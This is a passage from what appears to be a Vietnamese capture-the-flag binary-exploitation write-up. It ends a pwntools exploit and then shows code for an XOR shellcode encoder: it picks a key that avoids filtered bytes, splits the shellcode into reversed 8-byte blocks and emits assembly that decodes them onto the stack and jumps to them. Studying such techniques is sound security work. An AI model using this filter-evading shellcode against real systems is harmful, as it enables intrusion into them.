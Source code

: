 ```cs
input()
p.sendline(sc_real)

p.interactive()
```

- 1 cách khác là tạo 1 bộ mã hóa để mã hóa shellcode của ta , đầu tiên ta sẽ tạo 1 hàm để tìm ra cái key mà sau khi xor thì không có byte nào chứa byte bị filter : 

```cs
def find_key(shellcode, filter):
    for i in range(10000):
        key = os.urandom(8)
        s = b""
        for sh in shellcode:
            s += xor(key[:len(sh)], sh)
        if all(i not in s for i in filter):
            return key
    exit(-1)
```

- chú ý là shellcode của ta phải chia hết cho 8 vì nó sẽ theo từng khối và ta cần đảo ngược tất cả lại vì ta sẽ cần push nó vào 

```cs
blocks = [original_shellcode[i:i+BLOCK_SIZE][::-1] 
              for i in range(0, len(original_shellcode), BLOCK_SIZE)][::-1]
```

- tiếp theo ta sẽ mã hóa nó 

```
blocks = ['0x'+xor(b, key[:len(b)]).hex() for b in blocks]
```

- cuối cùng là ta sẽ giải mã nó như sau:

ta sẽ xor lại với key và push nó vào cuối cùng là nhảy đến shellcode đã được giải mã 

```cs
shellcode = f"""
    xor rsi, rsi
    movabs rcx, {key} 
"""

for b in blocks:
    shellcode += f"""
    movabs r8, {b}  
    xor    r8, rcx 
    push   r8      
"""

shellcode += """
    jmp    rsp 
"""
```
